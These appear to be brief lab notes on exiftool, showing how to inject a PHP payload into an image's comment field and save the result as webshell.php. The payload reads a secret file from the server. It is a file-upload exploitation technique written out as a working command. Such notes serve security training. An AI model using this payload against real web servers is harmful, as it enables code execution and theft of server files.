 EXIFTOOL

-comment=”<payload>”

-o to copy the data into a new file such as a php file

exiftool -comment="<?php echo ' LOOK HERE FOR COOL SHIT ' . file_get_contents('/home/carlos/secret') . ' TO THE LEFT' ; ?>" tester.png -o webshell.php